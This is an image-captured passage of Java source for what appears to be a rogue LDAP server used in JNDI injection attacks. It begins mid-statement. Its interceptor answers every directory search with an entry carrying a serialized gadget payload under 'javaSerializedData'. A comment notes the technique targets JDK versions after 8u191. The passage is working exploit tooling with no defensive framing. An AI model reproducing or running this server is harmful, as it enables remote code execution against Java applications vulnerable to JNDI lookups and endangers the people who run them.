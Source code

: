 ```java
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {

            //jdk8u191之后
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget

            e.addAttribute("javaSerializedData", serializeObject(getPayload()));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```
